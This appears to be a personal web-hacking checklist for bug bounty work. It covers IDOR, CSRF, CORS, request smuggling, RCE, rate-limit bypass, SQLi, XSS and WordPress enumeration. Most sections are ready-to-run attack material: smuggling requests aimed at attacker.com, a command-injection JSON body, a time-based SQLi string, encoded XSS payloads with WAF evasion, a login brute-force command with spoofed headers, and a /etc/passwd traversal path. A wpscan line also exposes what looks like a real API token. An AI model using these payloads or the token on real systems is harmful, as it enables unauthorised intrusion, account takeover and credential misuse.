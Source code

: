 <details>
	<summary>IDOR</summary>
	
    1- Look for id everywhere
    
    2- Play with hash/encoded values
    
    3- Change The ID's in the request 
    
    4- Upload the profile photo for another user
    
    5- Try change/View data of another user
    
    6- Do something with your email then change it in Burp

    7- Add parameter IDs to requests that don’t have them 

    8- Try replacing parameter names

    9- Try changing the requested file type 
    	GET /user_data/2341 --> 401 Unauthorized
	GET /user_data/2341.json --> 200 OK
    
    10- Try using an array {“id”:19} → {“id”:[19]}

    11- Wildcard ID /api/users/*

    12- check for session cookies if has httponly flag

    13- use the inspector of Burp Repeater to play with id's

    14- use https://jwt.io

    15- create two accounts and save both jwt data and try change between them

    16- detect each cookie and see where it being used

    17- Gather POST & GET and test every CRUD

    18- change HTTP method
	GET /users/delete/victim_id  ->403
	POST /users/delete/victim_id ->200

    19- 


 
  
</details>

-----------------------------------------------------------------------------

<details>
	<summary>Broken Access Control</summary>

	1- Test some Graphql operations with different user roles and see what this operation do
 	2- Check the role of every user and try upgrade your role by urself
  	3- try any unauth behavior like :
   		- member delete admin
     		- member send invites using the invite request
       		- member outside the comapny try any action 
	------------------------------------------------
 	- Wildcard -> GET /users/id -> GET /users/*
	------------------------------------------------
	- Content-Type: application/xml 
	- Content-Type: application/json
	------------------------------------------------
 	- 




 
</details>

-----------------------------------------------------------------------------

<details>
	<summary>CSRF</summary>

	Generate POC using LazyCSRF in BurpSuite
	=================================================
	FIRST SCENARIO: 
  	1- Login as Attacker and intercept any function like change email, pass, logout...etc
   	2- Genereate CSRF poc with that reqeust
    	3- login as Victim in another browser
     	4- open the CSRF poc in victim browser if did the function then it's a bug
  	
   	=================================================
	SECOND SCENARIO: The Token is tied to non-session cookie
 		if the token tied to an attribute in the request 
 	1- intercept the request of user1 change email,username..etc
  	2- Genrate POC 
   	3- get the CSRF key and attribute value of user2
    	4- 

    	=================================================
   	- Remove the token and leave the parameter empty
  	- Try use another user CSRF token
   	- Change the request method to get and remove the token
    	- Add Ayhaga to the real CSRF token 
     	- Dynamic chars in CSRF token manipulate
	- try delete referrer
 	- Referrer: https://target.com/https://evil.com
  	

 
</details>

-----------------------------------------------------------------------------

<details>
	<summary>CORS</summary>

	- Try manipulate the origin header -> Origin:attacker.com or Origin:null or Origin:attacker.target.com or Origin:target.attacker.com
 		- If origin is reflected in response means the target is vuln to CORS

	- 
  
</details>


-----------------------------------------------------------------------------

<details>
	<summary>Logic Bugs</summary>
	
    1- Try change the price or quantity of item
    
    2- Multiple booking for one room
    
    3- Place order without verify stock level
    
    4- Use coupons or bounus more than one time
    
    5- Check the difference bettween Front-end & Burp request
    
    6- Try creating more than one from the same block 

    7- Check for all posible IF statements and try to bypass it

    8- A user gains access to restricted features they shouldn't have access to.

    9- Try access files after deletion using the link of this file 

    10- Make changes in the source code disabled -> enabled / hidden -> flex

    11- Delete comment with report https://shahjerry33.medium.com/business-logic-errors-a-new-look-3b18d9c2a12f

    12- 
      
		
</details>

-----------------------------------------------------------------------------

<details>
	<summary>HTTP Request Smuggling</summary>

	https://deepstrike.io/blog/what-is-http-request-smuggling

    Attack Types: 
    -------------
    
	1- CL.TE: The attacker adds both CL-[Content-Length] & TE-[Transfer-Encoding]
 	        --------------------------------
	   	|	POST / HTTP/1.1
	   	|	Host: vuln.target.com
	     	|	Content-Length: 6
	       	|	Transfer-Encoding: chunked
		|	
	  	|	0\r\n
	    	|	\r\n
	      	|	G
		--------------------------------
	- Front-end deal with CL &&& Back-end deal with TE
	RESPONSE : then the victim do a normal request but the last content appears in this request
 		--------------------------------
	   	|	GPOST / HTTP/1.1
	   	|	Host: normal.target.com
		--------------------------------

	------------------------------------------------------------------------------------------------------------------
	2- TE.CL :

		 --------------------------------
	   	|	POST / HTTP/1.1
	   	|	Host: vuln.target.com
	     	|	Content-Length: 3
	       	|	Transfer-Encoding: chunked
		|	
	  	|	8
	    	|	SMUGGLED
	      	|	0
		--------------------------------
 
 	- Fron-end deal with TE && Back-end deal with CL
  	RESPONSE: 
   		--------------------------------
	   	|	SMUGGLED
     		|	0
     		|	POST / HTTP/1.1
	   	|	Host: normal.target.com
		--------------------------------
	------------------------------------------------------------------------------------------------------------------

    Exploits: 
    ---------	
     1- Open Redirect:
       		 --------------------------------
	   	|	POST / HTTP/1.1
	   	|	Host: victim.com
	     	|	Content-Length: 117
	       	|	Transfer-Encoding: chunked
		|	
	  	|	0 
    		|	
	    	|	GET / HTTP/1.1
      		|	Host: attacker.com
	 	|	Content-Type: application/x-www-form-urlencoded
   		|	Content-Length: 10
      		|
	      	|	x=
		|
		--------------------------------

 	---------------------------------------------------------------------------------



 
</details>

-----------------------------------------------------------------------------

<details>
	<summary>RCE</summary>

	1- Injection in json file 
 		{
   		   "username":" `touch ayfile.txt` ",
		   "password":"test"
		}
  	We establish a connection using ntcat then inject command in the json to get this connection
     --------------------------------------------------------------------------------------------------
     2- 

     
</details>

-----------------------------------------------------------------------------

<details>
	<summary>Race Condition</summary>

    1- 
 
</details>

-----------------------------------------------------------------------------

<details>
	<summary>Rate Limit</summary>

 	rate limit 
	1- no rate limit on login page 
	2- no rate limit on internal password
	3- no rate limit on sending reset password link 
	4- no rate limit on OTP or 2FA => account takeover
	5- no rate limit on contact us page 
	6- no rate limit on comments 
	7- no rate limit on reports of comments
	8- no rate limit on port 22
 	9- no rate limit on create users account lead to massive accounts created
	
	------------
	bypass rate limit by adding headers 
	X-Forwarded-For: 127.0.0.1
	X-Forwarded-Host: 127.0.0.1
	X-Origination-IP: 127.0.0.1 or 0.0.0.0
	X-Fowarded-For: 127.0.0.1
	X-Remote-IP: 127.0.0.1
	X-Remote-Addr: 127.0.0.1
	------------------------------------------
	POST /login.php HTTP/1.1
	Host: target.com
	X-Forwarded-For: 127.0.0.1
	X-Forwarded-Host: 127.0.0.1
	X-Origination-IP: 127.0.0.1 or 0.0.0.0
	X-Fowarded-For: 127.0.0.1
	X-Remote-IP: 127.0.0.1
	X-Remote-Addr: 127.0.0.1
	
	username=admin&password=$fuzz$
	-------------------------------------------
	429 => 403 
	bypass rate limit 
	
	ffuf -u https://example.com -w wordlist.txt --data "username=admin&password=FUZZ"  -H "X-Forwarded-For: 127.0.0.1" -H "X-Forwarded-For: 127.0.0.1"`
	
	403 


</details>

-----------------------------------------------------------------------------


<details>
## <summary>check sql injection in php</summary>
    
    1- first let's gather parameters 
    # arjun -i php.txt | tee -a parameters.txt
    2- after knowing parameters like id then full url would be 
    https://example.com/file.php?id=*
    3- use sqlmap 
    # sqlmap -u "~~https://example.com/file.php?id=*~~" --dbs --banner --batch --random-agent
    
 </details>   


-----------------------------------------------------------------------------


    
<details>
## <summary>SQLI</summary>

    id = 1'XOR(if(now()=sysdate(),sleep(2*2),0))OR'

	username:’ — ‘/” — “
	password:’ — ‘/” — “
</details>


-----------------------------------------------------------------------------

<details>
	<summary>XSS</summary>

 
	
	dalfox url "https://target.com/?q=search" -o dalfox_xss.txt
	dalfox file allParam.txt --waf-evasion --user-agent 'Mozilla/5.0 (x11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 			Safari/537.36' --proxy 'http://127.0.0.1:8080' --timeout 30 -b 'payload from xss.report' -o xssProbability.txt --deep-domxss 

	-----------------------------------------------------------------------------------------------
	
	echo "domain.com" | gau | kxss | grep ">"
	
	paramspider --domain domain.com
	paramspider --domain https://www.domain.com --exclude woff,css,png,svg,jpg --output t.txt
	
	echo "sub.domain.com" | waybackurls | httpx -silent | Gxss -c 100 -p Xss | sort -u | dalfox pipe
	
	-----------------------------------------------------------------------------------------------
	
	cat domain.txt | kxss | grep "\" ' < >" | tee kxss.txt
	
	cat domain.txt | kxss

	-----------------------------------------------------------------------------------------------

	Double Decode :
 		%2527%2520onmouseover%253D%2527alert%25281%2529%2527%2520
   		%2527%2520onfocus%253D%2527alert%25281%2529%2527%2520autofocus%253D%2527
     		%2527%2520onfocus%253D%2527alert%25281%2529%2527%2520
       		%2527%253E%253Cscript%253Ealert%25281%2529%253C%252Fscript%253E

	-----------------------------------------------------------------------------------------------
  	- Click "Live chat" and send a chat message. 
	Itercept the request 
	edit message to <img src=1 onerror='alert(1)'>
	   		
    	-----------------------------------------------------------------------------------------------



</details>



------------------------------------------------------------------------------------------------------

<details>
## <summary>hacking WordPress</summary>
    
    
    wpscan --url [https://target.com](https://target.com/) --disable-tls-checks --api-token zBsi404GGCMKGzTraiEsSsQsFXCsUVWmaDUsn3EPuKc -e at -e ap -e u --enumerate ap --plugins-detection aggressive --force
    wordpress usernames exposure :
    /wp-json/wp/v2/users
    /author-sitemap.xml
    /wp-content/debug.log
    /wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
    	
    /wp-login.php?action=register
    /wp-json/?rest_route=/wp/v2/users/
    /wp-json/?rest_route=/wp/v2/users/n

</details>

-----------------------------------------------------------------------------



<details>
	<summary>PHP</summary>
</details>



-----------------------------------------------------------------------------

<details>
	<summary>Subdomain Takeover</summary>

	- subjack -w <Subdomain List> -o results.txt -ssl -c fingerprints.json
 	- subzy 

   	
 
</details>

-----------------------------------------------------------------------------

